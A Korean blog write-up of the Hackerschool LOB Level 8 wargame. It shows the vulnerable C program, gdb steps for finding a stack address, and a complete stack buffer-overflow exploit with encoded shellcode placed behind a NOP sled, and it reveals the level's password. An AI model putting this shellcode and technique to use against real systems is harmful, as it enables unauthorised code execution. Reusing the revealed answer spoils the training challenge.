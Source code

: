 ```yaml
---
date: '2022-10-18'
before : '2022-10-17'
after : '2022-10-19'
title: '시스템 해킹(23) : FTZ LOB LEVEL 8'
categories: ['C-SEC', 'KOR', 'pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이 문제에서는 더 이상 매개변수를 두개 넘겨줄 수 없다. 해결법은 그래도 그리 어렵진 않다.


### Level 8 : Orge -> Troll

소스코드를 확인해보자.

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed, 파라미터의 개수가 하나밖에 없다.
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter, 환경변수 사용 불가
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        // 첫 번째 argv의 마지막 값은 무조건 /xbf, 따라서 특정 주소를 나타내야 한다.
        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
```
이런 경우는 그냥 첫 번째 매개변수에 두 번째 매개변수를 넘겨주면 되는데, 이게 무슨 말이냐면 :


우리가 넘길 매개변수 = return주소를 포함하는 통상적인 버퍼 오버플로우 스트링 + " " (빈 스트링) + NOP SLED 포함 쉘코드


이런 식으로 매개변수를 넘겨서, return 주소가 NOP SLED 어딘가쯤에 오게 만들면 된다는 말이다. 말로 들으면 어려우니 코드를 보자 : 

```
b * main
r `python -c'print "A"*44+"\xbf\xbf\xbf\xbf"'` `python -c'print "\x90"*100'`
x/200x $esp
```
확인해보면 A(\x41)부터 시작해서 쭉쭉 나가다가 어느 순간 \x90이 시작되는 것이 보인다. 그 주소는 다음과 같다 : 


대충이나마의 주소 : 0xbffffb3c


그럼 그냥 return 코드로 저 주소를 넘겨주면 된다. 어렵지 않다.


따라서 exploit :

```
./`python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"D"*44+"\x90\xfb\xff\xbf"'`
```

비밀번호 : aspirin

 ---
## Source

- 해커스쿨 FTZ
- Me!
